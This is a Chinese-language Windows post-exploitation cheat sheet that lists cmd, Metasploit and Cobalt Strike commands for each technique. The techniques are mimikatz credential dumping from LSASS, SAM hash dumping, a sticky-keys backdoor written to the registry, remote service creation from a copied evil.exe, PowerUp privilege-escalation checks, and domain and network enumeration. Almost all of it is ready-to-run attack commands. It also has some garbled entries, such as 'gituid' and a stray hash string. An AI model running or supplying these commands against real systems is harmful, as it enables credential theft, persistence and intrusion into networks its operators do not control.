



# mimikatz密码盗取

# 从内存中提取密码

## 注入lsass.exe(一个payload二进制文件)并从中提权登录用户的明文密码

## 在msf中

```bash
use mimikatz    \\调用模块

wdigest     \\(获取WDigest凭据)

msv    \\（获取msv凭据（hash））

kerberos       \\（获取kerberos）
```




## 在客户端(CS)中

logonpasswords

```
logonpasswords

msv

kerberos

wdigest
```

# 从sam文件里面读取hash

sam文件存放着hash，然后`读取该文件进行获得凭证`。

## msf下的操作

```
hashdump    (普通hash获取)

run hashdump    (获取普通hash值)

post/windows/gather/credentials/domain_hashdump （获取域hash）
```

## CS下的操作

```
hashdump

sam
```

# 注册表查询

> 从注册表中的键值检测是否开启终端服务，如果是0，则为开启，为1则是关闭

## 在CMD中的操作：

```
reg query "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections
reg query "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections

HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server
    fDenyTSConnections    REG_DWORD    0x0
```

## 在MSF中的操作：(不推荐)

```
reg queryval -k "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" -v fDenyTSConnections

post/windows/gather/enum_termserv 
```

## 在CS中的操作

```
shell reg query "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections
```

# 易访问特征

>  使用sethc启动cmd

## 在cmd中操作

```
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /v Debugger /t REG_SZ /d "C:\windows\system32\cmd.exe" /f
```

## msf下操作
```
post/windows/manage/sticky_keys
exploit
```

可惜我没成功

D46426BD8B9D204B076190B8B1ABB80B5AE89152

## CS客户端操作
```
shell REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /v Debugger /t REG_SZ /d "C:\windows\system32\cmd.exe" /f
```

# 系统网络配置发现

> 发现网络信息

## CMD下：
```
ipconfig /all
```

## msf下操作：

```
post/windows/gather/enum_domains
```
# cs下操作：

```
shell ipconfig /all
```

# 获取ARP表

## CMD中
```
arp -a
router print
```

## MSF中操作
```
router
```

## CS下的操作
```
arp -a
```

# 获取mac、ip地址和其描述性代码

## CDM：
```
nbtstat -a ip
```
## cs下操作
```
shell c:\windows\system32\nbtstat.exe -a ip
```

# 远程系统发现

> <h2> 获取域主机列表

## CMD
```
net group "Domain Computers" /domain
```


## MSF
```
post/windows/gather/enum_ad_computers

post/windows/gather/enum_computers
```
# CS下操作
```
shell net group "Domain Computers" /domain
```
> <h2>获取域控列表

# CMD

```
net group "Domain Controllers" /domain[:DOMAIN]
```

## CS下操作:
```
shell net group "Domain Controllers" /domain
```

# 显示域信任关系

## CMD 
```
nltest /dclist
```

# 显示ad域工作组的登录器

## CMD
```
echo %LOGONSERVER%
```

## CS客户端
```
shell echo %LOGONSERVER%
```

# 系统用户发现

> <h2>获取用户信息

## CMD
```
whoami/all /fo list    
```

## MSF
```
gituid
```

## cs下操作
```
shell whoami /all /fo list
```

# 路径劫持

> 服务路径(存储在Windows注册表项中)[2]和快捷方式很容易被路径拦截，如果路径有一个或多个空格，并且没有被引号包围(例如，C:\ \program.exe vs. C:\ safe path with space\program.exe)。"C:\安全路径与空格\program.exe")。对手可以将可执行文件放在路径的较高级别目录中，Windows将解析该可执行文件而不是预期的可执行文件。例如，如果快捷方式中的路径是C:\program files\myapp。竞争对手可以在C:\program.exe上创建一个程序，该程序将代替预期的程序运行


## 服务路径

## CMD
```
powershell -ep bypass .\powerup.ps1 Invoke-AllChecks

powershell -ExecutionPolicy Bypass .\powerup.ps1 Invoke-AllChecks

```

## MSF
```
exploit/windows/local/trusted_service_path
exploit
```
## cs下操作：

```
powershell-import /path/to/PowerUp.ps1

powershell Invoke-AllChecks
```

# 服务执行

## 远程创建一个新服务

### CMD
```
net use \COMP\ADMIN$ "password" /user:DOMAIN_NAME\UserName

copy evil.exe \COMP\ADMIN$\acachsrv.exe

sc \COMP create acachsrv binPath= "C:\Windows\System32\acachsrv.exe" start= auto description= "Description here" DisplayName= "DisplayName"

sc \COMP start acachsrv

```

### cs下操作：
```
shell net use \COMP\ADMIN$ "password" /user:DOMAIN_NAME\UserName

shell copy evil.exe \COMP\ADMIN$\acachsrv.exe

shell sc \COMP create acachsrv binPath= "C:\Windows\System32\acachsrv.exe" start= auto description= "Description here" DisplayName= "DisplayName"

shell sc \COMP start acachsrv
```

# DLL劫持

> 通俗的来理解就是windows下的dll文件可以被替换或可以修改.manifest或.local重定向文件、目录或连接来直接修改程序加载DLL来达到权限提升或者其他的效果。

## 常见的提权方法检测

### Powershell

```
powershell -ExecutionPolicy Bypass  .\powerup.ps1 Invoke-AllChecks
```

### MSF
```
exploit/windows/local/trusted_service_path
```

### CS端
```
powershell-import /path/to/PowerUp.ps1

powershell Invoke-AllChecks
```

# 文件系统权限不足

> 简单来说就是可以替换文件、服务或者使用安装文件来获取权限

## 常见的提权方法检测

### CMD
```
powershell.exe -epbypass PowerUp.ps1

Invoke-AllChecks
```
### MSF下的操作
```
exploit/windows/local/trusted_service_path
```

# 系统网络连接发现

## 获取当前TCP/IP连接

### CMD
```
netstat -ano
```

### MSF
```
use post/windows/gather/tcpnetstat

show options

set session 1

exploit
```

### ｃS下操作：
```
shell c:\windows\sysnative\netstat.exe -ano

```


# 显示活动的smb会话

### MSF
```
use post/windows/gather/enum_logged_on_users

show option

set session 1

exploit 
```


